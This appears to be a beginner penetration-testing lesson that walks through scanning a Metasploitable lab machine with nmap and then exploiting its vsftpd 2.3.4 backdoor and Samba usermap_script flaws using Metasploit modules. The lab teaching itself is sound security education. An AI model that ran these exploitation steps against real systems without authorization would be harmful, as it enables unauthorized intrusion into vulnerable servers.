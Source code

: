 # Access to operating systems

## High Level Goals

By the end of this lesson, you will be familiar with the following:
1. Introduction to gaining access
2. Server side.

## Introduction 

In this stage, we're going to be talking about gaining access to computer devices.

What do we mean by computer devices?
Any electronic device you see is a computer. A phone, a TV, a laptop, a web server, a website, a network, a router, all of these things are computers
Each one of them has an operating system, and they have programs installed on these operating systems.

We're going to be talking about attacking these devices from two main sides: 
1. Server side.
2. Client side.


## server side

First things, we want to run the kali and the Metasploitable.
We want to know the information about the target, we need to scan the target

	nmap 10.0.2.7

> In my case the IP adress of the Metasploitable is 10.0.2.7 you will have another IP.
 
 we will see these output
 
	┌──(tetra㉿kali)-[~]
	└─$ nmap -sV 10.0.2.7    
	Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-24 10:46 EEST
	Nmap scan report for 10.0.2.7
	Host is up (0.00013s latency).
	Not shown: 977 closed ports
	PORT     STATE SERVICE     VERSION
	21/tcp   open  ftp         vsftpd 2.3.4
	22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
	23/tcp   open  telnet      Linux telnetd
	25/tcp   open  smtp        Postfix smtpd
	53/tcp   open  domain      ISC BIND 9.4.2
	80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
	111/tcp  open  rpcbind     2 (RPC #100000)
	139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	512/tcp  open  exec        netkit-rsh rexecd
	513/tcp  open  login       OpenBSD or Solaris rlogind
	514/tcp  open  tcpwrapped
	1099/tcp open  java-rmi    GNU Classpath grmiregistry
	1524/tcp open  bindshell   Metasploitable root shell
	2049/tcp open  nfs         2-4 (RPC #100003)
	2121/tcp open  ftp         ProFTPD 1.3.1
	3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
	5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
	5900/tcp open  vnc         VNC (protocol 3.3)
	6000/tcp open  X11         (access denied)                                   
	6667/tcp open  irc         UnrealIRCd                                        
	8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)                      
	8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1               
	MAC Address: 08:00:27:10:69:2F (Oracle VirtualBox virtual NIC)               
	Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 11.86 seconds


know we see we have port `21/tcp` is open and running `ftp` service which have `vsftpd 2.3.4`  if we go in the Google and write vsftpd 2.3.4 exploit

![vsftpdexploit](/img/vsftpdexploit1.png)

### Metasploit 

What is Metasploit 

Metasploit is an exploit development and execution tool. it can also be used to carry out other penetration testing tasks such as port scans, service identification and post exploitation tasks. We have some command for Metasploit 

|command| what it does |
|--|--|
| `msfconsole` | runs the metasploit console |
| `help` | shows help |
| `show [something]` | something can be exploits, payloads, auxiliaries or options |
| `use[something]` | use a certain exploit, payload or auxiliary |
| `set[option] [value]` | confider[option] to have a value of [value]|
| `exploit` | runs the current task |

now go to the terminal:

1. write `msfconsole` 

![msfconsole1](/img/msfconsole1.png)

2. we want to add the command that we take it from this [website,](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/) which is `use exploit/unix/ftp/vsftpd_234_backdoor`

![msfconsole2](/img/msfconsole2.png)

3.  we need to show option to know what can we do `show options`

![showoption](/img/showoption.png)

4. we need to change the `RHOST` by using `set RHOST 10.0.2.7`

![setRHOST](/img/setRHOST.png)

5. know write `exploit` awesome we hacked the Metasploit .

Now let's try to another service, let's see `139/tcp` which have service `netbios-ssn` 

1. Go to the Google and write `Samba smbd 3.X exploit`
2. open `msfconsole`
3. use the `use use exploit/multi/samba/usermap_script`
4. show options and set the options
5. run the command `exploit`
